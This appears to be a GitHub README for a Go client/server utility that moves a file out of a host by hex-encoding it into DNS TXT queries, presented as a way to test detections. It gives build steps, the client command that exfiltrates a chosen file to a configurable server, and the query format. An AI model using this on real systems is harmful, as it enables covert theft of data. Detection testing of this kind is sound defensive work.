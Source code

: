 # dns-TXT-exfi-test
Simple client/server in golang to help with testing data exfil detections over DNS TXT records. Note: this utility is intended for detections testing rather than for use in red team operations, as this does not contain opsec controls (uses simple hex encoding).

## Steps:
On Server Host:

1. > git clone https://github.com/cedowens/dns-TXT-exfil-test

2. > cd dns-TXT-exfil-test/server

3. > go get github.com/miekg/dns

4. > go build

5. > ./server


On Client Host:

1. > git clone https://github.com/cedowens/dns-TXT-exfil-test

2. > cd dns-TXT-exfil-test/client

3. > sed -i -e 's|10.10.10.10|IP_OF_YOUR_SERVER_HOST|g' client.go

4. > go build

5. > ./client [path_to_file_to_exfil]

------------

## Under The Hood

From a detections perspective, this is how this tool works:

1. The client takes the file, breaks it into 100 character hex encoded chunks

2. The client then takes each 100 character chunk and sends it in a DNS TXT record request as follows:

`[hex_file_data].macconsultants.com,  TYPE: TXT, CLASS IN`

3. The server takes each 200 character hex encoded chunk, unhexlifies it, and writes it to a file in the current directory named "outfile"

4. The server also sends a TXT answer to that query as follows:

`[hex_file_data].macconsultants.com, TYPE TXT, CLASS IN`


This can be a helpful way to validate any detections around suspicious DNS TXT traffic
